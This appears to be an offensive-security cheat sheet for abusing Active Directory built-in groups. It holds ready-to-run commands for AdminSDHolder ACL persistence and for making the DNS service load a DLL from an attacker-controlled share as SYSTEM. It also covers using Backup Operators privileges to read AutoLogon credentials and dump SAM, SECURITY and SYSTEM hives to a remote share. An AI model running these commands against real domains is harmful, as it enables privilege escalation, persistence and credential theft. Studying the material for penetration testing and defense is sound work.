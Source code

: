 # Active Directory - Groups

## Dangerous Built-in Groups Usage

If you do not want modified ACLs to be overwritten every hour, you should change ACL template on the object `CN=AdminSDHolder,CN=System` or set `adminCount` attribute to `0` for the required object.

> The AdminCount attribute is set to `1` automatically when a user is assigned to any privileged group, but it is never automatically unset when the user is removed from these group(s).

Find users with `AdminCount=1`.

```ps1
netexec ldap 10.10.10.10 -u username -p password --admin-count
# or
bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get search --filter '(admincount=1)' --attr sAMAccountName
# or
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
# or
Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
# or
([adsisearcher]"(AdminCount=1)").findall()
```

## AdminSDHolder Attribute

> The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

If you modify the permissions of **AdminSDHolder**, that permission template will be pushed out to all protected accounts automatically by `SDProp` (in an hour).

E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 add genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john

  # Clean up after
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 remove genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john
  ```

* Windows only:

  ```ps1
  # Add a user to the AdminSDHolder group:
  Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose

  # Right to reset password for toto using the account titi
  Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword

  # Give all rights
  Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All
  ```

## DNS Admins Group

> It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).

:warning: Require privileges to restart the DNS service.

* Enumerate members of DNSAdmins group
    * Windows/Linux:

    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object DNSAdmins --attr msds-memberTransitive
    ```

    * Windows only:

    ```ps1
    Get-NetGroupMember -GroupName "DNSAdmins"
    Get-ADGroupMember -Identity DNSAdmins
    ```

* Change dll loaded by the DNS service

    ```ps1
    # with RSAT
    dnscmd <servername> /config /serverlevelplugindll \\attacker_IP\dll\mimilib.dll
    dnscmd 10.10.10.11 /config /serverlevelplugindll \\10.10.10.10\exploit\privesc.dll

    # with DNSServer module
    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All
    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"
    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose
    ```

* Check the previous command success

    ```ps1
    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
    ```

* Restart DNS

    ```ps1
    sc \\dc01 stop dns
    sc \\dc01 start dns
    ```

## Schema Admins Group

> The Schema Admins group is a security group in Microsoft Active Directory that provides its members with the ability to make changes to the schema of an Active Directory forest. The schema defines the structure of the Active Directory database, including the attributes and object classes that are used to store information about users, groups, computers, and other objects in the directory.

## Backup Operators Group

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers.

This groups grants the following privileges :

* SeBackup privileges
* SeRestore privileges

Get members of the group:

* Windows/Linux:

    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object "Backup Operators" --attr msds-memberTransitive
    ```

* Windows only:

    ```ps1
    PowerView> Get-NetGroupMember -Identity "Backup Operators" -Recurse
    ```

Enable privileges using [giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```ps1
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Retrieve sensitive files

```ps1
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

Retrieve content of AutoLogon in the `HKLM\SOFTWARE` hive

```ps1
$reg = [Microsoft.Win32.RegistryKey]::OpenRemoteBaseKey('LocalMachine', 'dc.htb.local',[Microsoft.Win32.RegistryView]::Registry64)
$winlogon = $reg.OpenSubKey('SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon')
$winlogon.GetValueNames() | foreach {"$_ : $(($winlogon).GetValue($_))"}
```

Retrieve `SAM`,`SECURITY` and `SYSTEM` hives

* [Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

    ```ps1
    nxc smb 10.10.10.10 -u user -p password -M backup_operator
    ```

* [mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

    ```ps1
    .\BackupOperatorToDA.exe -t \\dc1.lab.local -u user -p pass -d domain -o \\10.10.10.10\SHARE\
    ```

* [improsec/BackupOperatorToolkit](https://github.com/improsec/BackupOperatorToolkit)

    ```ps1
    .\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK
    ```

## References

* [Poc’ing Beyond Domain Admin - Part 1 - cube0x0](https://cube0x0.github.io/Pocing-Beyond-DA/)
* [WHAT’S SPECIAL ABOUT THE BUILTIN ADMINISTRATOR ACCOUNT? - 21/05/2012 - MORGAN SIMONSEN](https://morgansimonsen.com/2012/05/21/whats-special-about-the-builtin-administrator-account-12/)
